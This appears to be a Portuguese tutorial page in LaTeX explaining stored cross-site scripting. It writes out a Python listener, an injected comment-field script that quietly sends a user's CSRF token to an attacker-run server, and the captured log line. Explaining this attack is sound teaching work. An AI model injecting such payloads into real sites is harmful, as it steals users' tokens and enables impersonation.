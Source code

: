 \documentclass[11pt]{article}
\begin{document}


Ao perceber isso, o atacante pode criar uma API que recebe os tokens de autenticação de usuários. Isso pode ser feito, por exemplo, com Python. Basta executar o seguinte comando:

\begin{lstlisting}
    python -m http.server 80
\end{lstlisting}

Para obrigar os clientes do site a enviarem seus tokens de autenticação para sua API, o atacante pode inserir, no campo de comentário do site, o seguinte script, substituindo apenas a URL pela URL da sua API:

\begin{lstlisting}
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.0/jquery.min.js" integrity="sha512-3gJwYpMe3QewGELv8k/BX9vcqhryRdzRMxVfq6ngyWXwo03GFEzjsUm8Q7RZcHPHksttq7/GFoxjCVUjkjvPdw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

    <script>
        $.ajax({
            url: "http://localhost:80",
            method: 'GET',
            data: {
                'csrfmiddlewaretoken': document.getElementsByName('csrfmiddlewaretoken')[0].value
            }
        });
    </script>
\end{lstlisting}

O script indicado faz uma requisição do tipo AJAX para a API maliciosa de forma completamente imperceptícel para o usuário. A página HTML renderizada fica sendo:



Com a entrega dessa página HTML para o cliente, podemos observar no terminal da API do atacante:

\begin{lstlisting}
    Serving HTTP on :: port 80 (http://[::]:80/) ...
    ::1 - - "GET /?csrfmiddlewaretoken=XcLRZYvTcYygKJ2346zV4Ez8hSVDSgh1pBBuQdZf2EhfiNa9aVcILt2HwWcOdebU HTTP/1.1" 200 -
\end{lstlisting}

Dessa forma, o token da sessão do usuário foi sequestrada, e o atacante poderia até programar um endpoint para realizar ataques se passando pela vítima de forma automática.
\end{document}
